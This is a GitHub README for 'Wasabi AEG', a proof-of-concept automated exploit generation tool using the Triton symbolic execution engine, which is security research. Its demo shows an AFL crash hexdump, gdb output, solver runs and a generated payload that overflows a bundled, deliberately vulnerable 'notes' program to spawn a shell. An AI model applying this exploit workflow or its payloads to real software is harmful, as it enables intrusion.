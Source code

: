 Wasabi AEG
====

This is yet another implementation of AEG (Automated Exploit Generation) using symbolic execution engine Triton, and just proof of concept.

This project is inspired by following researches.

* [AEG (Automatic Exploit Generation)](http://security.ece.cmu.edu/aeg/)
* [Driller](https://github.com/shellphish/driller)


Presentations
-----
* Girls Meets Symbolic Execution: Assertion 2. Automated Exploit Generation (at 第14回カーネル／VM探検隊) [[Japanese](https://speakerdeck.com/katc/girls-meets-symbolic-execution-assertion-2-automated-exploit-generation), [English](https://speakerdeck.com/katc/girls-meets-symbolic-execution-assertion-2-automated-exploit-generation-english)]


Requirements
-----
* [Triton](https://github.com/JonathanSalwan/Triton) and [Pin tracer](https://triton.quarkslab.com/documentation/doxygen/index.html#libpintool_install_sec)
    * **NOTE**: My Triton build number is 1380 (v 0.6). Triton's API is volatile. So you may need some patches for solver script in the future.
* [lief](https://lief.quarkslab.com/)
* Python2


Build
----
You must build sample vulnerable programs.

```
cd vuln-samples
make
cd -
```


Demo
-----
Demo applicaitons are located in `vuln-samples`.

### notes
**:tada: Demo video (asciinema) :camera: is avaliable [here](https://asciinema.org/a/oex5uONOiUy5lNb41fgBQALtb)!**

`notes` has buffer overflow bug, and shellcode as `instant_win()` function.

We can obtain crash input using AFL and feed it into `notes`.
We found that `notes` crashes at address `0x7ffff7a8c231`.

```
K_atc% xxd vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad adad  ..f........"....
00000040: adad ad9d adad adad 0d51 0a73 0a75 0a33  .........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a63  .nle.(..o.!! ..c
00000060: 6e6e 6e6e 6e81 e16e 6e6e 6e6e 7e6e 6e6f  nnnnn..nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q
```

```
gdb-peda$ r < result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32

[----------------------------------registers-----------------------------------]
... snipped ...
RBP: 0xadad9dadadadadad 
... snipped ...
[-------------------------------------code-------------------------------------]
... snipped ...
=> 0x7ffff7a8c231 <__GI__IO_getline_info+193>:  mov    BYTE PTR [rbp+0x0],al
... snipped ...
Stopped reason: SIGBUS
0x00007ffff7a8c231 in __GI__IO_getline_info () from /usr/lib/libc.so.6
```

Generate exploit payload in the following manner.

```
K_atc% export CRASHED_AT=0x7ffff7a8c231

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes.py vuln-samples/notes < vuln-samples/result-notes/crashes/id:000004,sig:07,src:000000,op:havoc,rep:32
... snipped ...
[TT] Solving Memory Access constriant...
[TT] Model for Memory Access: {64L: SymVar_64 = 0x60, 65L: SymVar_65 = 0x0, 66L: SymVar_66 = 0x0, 67L: SymVar_67 = 0x0, 68L: SymVar_68 = 0x0, 69L: SymVar_69 = 0x0, 95L: SymVar_95 = 0x10, 62L: SymVar_62 = 0xD8, 63L: SymVar_63 = 0x30}
~~~~~~~~
Found exploitable crash:  'n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\nu\x009:n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\xf5\xf5\xf5\xf5\xf5\xf5\n\xf8\x00n\x00\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xd80`\x00\x00\x00\x00\x00\xf5\xf5\xf5\xf5\n\xf5\nu\x001:\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\xf5\n\x10'
Crash inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10'
[TT] Reading remaining stdin...
    read stdin = ''nnnnn\x81\xe1nnnnn~nnon!\xff\x00s\nq''
[TT] crash input is saved as 'crash_inputs'
[TT] Go on to phase 2
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  106.72s user 5.79s system 99% cpu 1:53.21 total

K_atc% time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes-phase-2.py vuln-samples/notes < crash_inputs
... snipped ...
~~~~~~~~
[TT] Automated Exploit Generation Done. Saving payload as 'exploit-payload'
[TT] Model for Memory Access: {96L: SymVar_96 = 0x12, 97L: SymVar_97 = 0x40, 98L: SymVar_98 = 0x0, 99L: SymVar_99 = 0x0, 100L: SymVar_100 = 0x0, 101L: SymVar_101 = 0x0, 102L: SymVar_102 = 0x0, 95L: SymVar_95 = 0x10}
Crash Inputs: 'n\xf8]it\xe9m\r2\ns\nu\n3\nnle\xffh\xff\xffo\x81!!.z\x81!! \xd5\ncnn! \xd5\ncnnf\xad\xad\xad\xadf\xad\xad\xad\xad\xad\xad\xad\xad"\xad\xad\xd80`\x00\x00\x00\x00\x00\xad\xad\rQ\ns\nu\n3\nnle\xff(\xff\xffo\x81!! \xd5\n\x10\x12@\x00\x00\x00\x00\x00nnnnn~nnon!\xff\x00s\nq'
To test payload: `(cat exploit-payload -) | ./vuln-samples/notes`
[TT] End
~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton   <  69.77s user 6.09s system 99% cpu 1:16.34 total
```

Finally, we got exploit payload to spawn shell which works fine!

```
K_atc% xxd exploit-payload 
00000000: 6ef8 5d69 74e9 6d0d 320a 730a 750a 330a  n.]it.m.2.s.u.3.
00000010: 6e6c 65ff 68ff ff6f 8121 212e 7a81 2121  nle.h..o.!!.z.!!
00000020: 20d5 0a63 6e6e 2120 d50a 636e 6e66 adad   ..cnn! ..cnnf..
00000030: adad 66ad adad adad adad ad22 adad d830  ..f........"...0
00000040: 6000 0000 0000 adad 0d51 0a73 0a75 0a33  `........Q.s.u.3
00000050: 0a6e 6c65 ff28 ffff 6f81 2121 20d5 0a10  .nle.(..o.!! ...
00000060: 1240 0000 0000 006e 6e6e 6e6e 7e6e 6e6f  .@.....nnnnn~nno
00000070: 6e21 ff00 730a 71                        n!..s.q

K_atc% (cat exploit-payload -) | ./vuln-samples/notes
Exploit Me!!

---- [menu] ----

==== [note #3] ====
title: content: Congratz![Enter]
uname -a
Linux K_atc 4.17.2-1-ARCH #1 SMP PREEMPT Sat Jun 16 11:08:59 UTC 2018 x86_64 GNU/Linux
whoami
katc
```